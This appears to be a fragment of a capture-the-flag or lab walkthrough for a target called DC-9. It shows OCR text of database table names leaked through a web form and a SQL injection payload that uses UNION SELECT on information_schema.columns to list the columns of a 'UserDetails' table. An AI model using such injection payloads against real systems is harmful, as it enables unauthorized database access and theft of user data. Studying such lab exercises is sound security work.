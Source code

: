 
<img src="DC-9/media/image12.png" style="width:4.99167in;height:5.6in" alt="Phone No: INNOD8 SYS VIRTUAL Name: 2 3 Position: 4 Phone No: INNOD8 TABLESPACES SCRUBBING Email. 6 Name: 2 3 Position: 4 Phone No: INNODB SYS SEMAPHORE WAITS Email: 6 Name: 23 Position: 4 Phone No: StaffDetails Email: 6 Name: 2 3 Position: 4 Phone No: Users Email: 6 Name: 2 3 Positiom 4 Phone Use&#39;DH:ml: Email: 6 " />

mary' union all select 1,2,3,4,column\_name,6 FROM information\_schema.columns where table\_name='UserDetails' -- -
